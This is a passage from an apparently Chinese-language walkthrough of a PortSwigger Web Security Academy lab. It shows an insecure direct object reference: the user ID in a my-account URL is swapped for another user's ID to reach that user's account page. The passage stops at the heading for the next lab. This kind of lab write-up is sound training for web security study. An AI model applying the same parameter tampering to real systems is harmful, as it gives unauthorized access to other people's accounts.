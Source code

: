 ### 答案

先找到一份 carlos 用户发表的博文，观察 url，有特殊的 userId 字段

```http
https://0abe00e803e1d56e805f548e007b007b.web-security-academy.net/blogs?userId=b901979a-565c-4b32-8777-16b55d1ac536
```

再登录已知的用户 wiener ，查看 url

```http
https://0abe00e803e1d56e805f548e007b007b.web-security-academy.net/my-account?id=da6a7881-06c9-4dee-87e4-c3fa48fa760a
```

当我们上面的 id 改为 carlos 用户的  userid 的值

```http
https://0abe00e803e1d56e805f548e007b007b.web-security-academy.net/my-account?id=b901979a-565c-4b32-8777-16b55d1ac536
```

  成功越权到 carlos 用户 的 主页

<img src=".\图片\Snipaste_2023-08-02_16-24-03.png" alt="Snipaste_2023-08-02_16-24-03" style="zoom:80%;" />

## Lab9

### 前置
